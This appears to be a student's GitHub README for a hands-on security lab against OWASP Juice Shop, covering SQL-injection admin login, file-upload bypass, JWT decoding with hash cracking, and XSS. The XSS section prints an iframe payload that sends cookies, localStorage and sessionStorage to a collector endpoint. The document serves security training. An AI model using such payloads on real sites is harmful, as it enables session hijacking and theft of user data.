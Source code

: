 # project2
## Description:
This project focuses on practical cybersecurity training by exploring web application vulnerabilities, writing professional reports, solving Capture The Flag (CTF) challenges, and mastering network scanning. It includes hands-on tasks with OWASP Juice Shop and TryHackMe's "Root Me" CTF, enhancing both offensive and defensive skills. Additionally, it incorporates developing a custom Python-based Nmap tool, fostering scripting and network analysis expertise.

**Assessment Methods:**

**Practical Exploration:**

**Identifying and documenting at least 5 vulnerabilities in OWASP Juice Shop.**

**Rooting a machine in the "Root Me" CTF.**

**Tool Proficiency:**

**Running Nmap scans on the Metasploitable or CTF server to detect services and vulnerabilities.**

**Developing a custom Python-based Nmap scanner that performs similar functions.**

**Report Writing:**

**Submitting a well-structured vulnerability assessment report on Juice Shop findings.**

**Including analysis, impact, and mitigation for identified vulnerabilities.**

**Learning Methods:**

**Hands-on experimentation with OWASP Juice Shop and TryHackMe challenges.**

**Guided and independent use of Nmap.**

**Python scripting for network analysis.**

**Research on professional report-writing techniques.**

## Requirements:

**Juice Shop** 

**Metasploitable**

**Burp Suite**

**TryHackMe account**

**Nmap**

**Gobuster**

**Metasploit**

**Python**
### Vulnerabilities in OWASP Juice Shop

**Steps to Install docker and Exploring OWASP Juice Shop Vulnerabilities**

**Install Docker**

```
sudo apt install docker.io
```

```
sudo su
```

``
usermod -aG docker {{user-anun}}
``

```
su {{user-anun}}
```

Run 
```
docker pull bkimminich/juice-shop
```

Run 
```
docker run --rm -p 127.0.0.1:3000:3000 bkimminich/juice-shop
```

**Exposes port 3000 on your localhost, allowing you to access
Juice Shop via http://localhost:3000**

#### 1. SQL Injection
**About attack:** SQL Injection exploits improper handling of user inputs in SQL queries. If input fields or URL parameters are not properly sanitized or validated, attackers can inject malicious SQL code to manipulate the query.

**How it was detected:** 
Lets try to dump system with SQL prompts.
We have access to admin page, with some games of clicking buttons, we can find the mail of admin. Here it is.
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_08_45.png)
Login with the administration's user account.
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_11_10.png)
Access the administration section of the stor
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_14_12.png)

#### 2. Security Misconfiguration
Uploading leaks
in this page valide only images file  
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_04_51_36.png)
but we can upload other file too
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_04_52_28.png)
 for exampl .zip,pdf
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-02_11_29_25.png)
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-02_11_28_40.png)

#### 3. Broken Access Control
**Use boolean OR and write true expression. before login turn on burpsuite, catch traffic from proxy, throw repeater and click send.** 

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_14_50_16.png)


**Now get token from response part and use convertor for example https://jwt.io/**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2000-17-25.png)

**Now get hashing password,  use something algorithm for get true password, https://crackstation.net/  may be it weak...**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-04%2023-53-05.png)

**Congratulations!!!**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_15_02_45.png)
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_15_05_02.png)

#### 4. Cross-Site Scripting (XSS)

About attack: Cross-Site Scripting (XSS) is a type of security vulnerability in web applications where an attacker injects malicious scripts into trusted websites. These scripts run in the context of other users' browsers, potentially allowing the attacker to steal sensitive information like session cookies, manipulate website content, or perform unauthorized actions on behalf of the victim.

**There are many payloads for XSS attacks. Some of them can be found in the https://xss.js.org/**
The payload is 
```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```
**Injecting JavaScript into input fields like search or feedback forms.**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2002-52-29.png)

payload can be 
```
<iframe src="javascript:fetch('http://localhost:5000/receiver', {method: 'POST',headers: { 'Content-Type': 'application/json' },body: JSON.stringify({cookies: document.cookie,localStorage: JSON.stringify(localStorage),sessionStorage: JSON.stringify(sessionStorage)})});"> </iframe>
```
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2002-54-11.png))
